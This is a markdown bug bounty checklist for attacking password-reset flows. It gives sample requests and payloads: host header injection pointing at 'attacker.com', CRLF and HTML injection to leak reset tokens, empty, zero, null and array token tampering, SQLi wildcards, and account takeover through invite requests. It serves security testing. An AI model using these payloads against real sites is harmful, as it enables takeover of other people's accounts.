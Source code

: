 [ ] a lot of ideas in this article  by **omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```

[ ] Use Your Token on Victims Email
```
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$

```

[ ] Host Header Injection
```
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```

[ ] HTML injection in Host Header
```
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```

[ ] Leakage of Password reset in Referer Header
```
Referrer: https://website.com/reset?token=1234
```


[ ] Using Companies Email
```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips
```

[ ] CRLF in URL
```
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

[ ] HTML injection in Email
```
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```

[ ] Remove token
```
http://example.com/reset?eamil=victims@gmail.com&token=
```

[ ] Change it to 0000
```
http://example.com/reset?eamil=victims@gmail.com&token=0000000000
```

[ ] Use Null Value
```
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil
```

[ ] try an array of old tokens
```
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

[ ] SQLi bypass
```
try sqli bypass and wildcard or, %, *
```

[ ] Request Method / Content Type
```
change request method (get, put, post etc) and/or content type (xml<>json) 
```

[ ] Response Manipulation
```
Replace bad response and replace with good one
```

[ ] Massive Token
```
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string
```

[ ] Crossdomain Token Usage
```
If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.
```
[ ] Leaking Reset Token in Response Body                                                                                                                   
[ ] change 1 char at the begin/end to see if the token is evaluated                                                                                         
[ ] use unicode char jutzu to spoof email address                                                                                                           
[ ] look for race conditions                                                                                                                               
[ ] try to register the same mail with different TLD (.eu,.net etc)                                                                                        
